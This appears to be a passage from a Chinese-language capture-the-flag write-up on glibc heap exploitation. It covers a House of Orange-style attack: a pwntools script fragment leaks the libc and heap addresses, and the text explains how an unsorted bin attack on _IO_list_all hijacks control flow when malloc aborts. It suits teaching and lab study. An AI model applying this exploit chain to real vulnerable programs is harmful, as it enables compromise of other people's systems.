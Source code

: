

成功malloc(0x400)后填充'C' * 8 的堆数据如下

```sh
pwndbg> x /40gx 0x5555557580c0
0x5555557580c0:	0x0000000000000000	0x0000000000000411
0x5555557580d0:	0x4343434343434343	0x00007ffff7dd2188 # main_arena + 88
0x5555557580e0:	0x00005555557580c0	0x00005555557580c0 # self heap addr
```



利用

```python
	# leak libc base with overflow
	ad(0x400, 'C' * 0x8)
	dp()
	lib.address = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - main_arena - 1640
	li('libc_base ' + hex(lib.address))
    
    # leak heap addr with large bin
	md(0x10, 'C' * 0x10)
	dp()
	ru('CCCCCCCCCCCCCCCC')
	heap = u64(ru('\x0a').ljust(8, '\x00')) - 0xc0
	li('heap ' + hex(heap))
```



### 触发异常劫持控制流程

怎么触发呢? 只要破坏unsorted bin 链表结构,再次申请时就会触发异常,那触发异常就会打印错误信息,`malloc_printerr`是`malloc`中用来打印错误的函数，而 malloc_printerr`其实是调用` `__libc_message`函数之后调用`abort`函数，`abort`函数其中调用了`_IO_flush_all_lockp`, 然后根据`IO_list_all`中的值去遍历IO_FILE调用IO_FILE 的vtable中的 `__overflow`函数指针

### unsorted bin attack 修改 `_IO_list_all`

如何进行劫持,采用修改old top chunk 的结构,使之报错,然而我们只需要采用unsorted bin attack修改`_IO_list_all`的值为unsorted_chunks(av)也就是main_arena + 0x58.修改这个有什么用? 本来`_IO_list_all`的值是指向`_IO_2_1_stderr`,若修改这个值,那么在malloc报错的时候就会遍历`_IO_list_all` 指向的IO_FILE结构体，详细后面会说道.

unsorted bin attack 实现攻击源码

```c
 if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                victim == av->last_remainder &&
                (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
                ....
            }

            /* remove from unsorted list */
            unsorted_chunks(av)->bk = bck;
            bck->fd                 = unsorted_chunks(av); //实现想目标处修改值
```
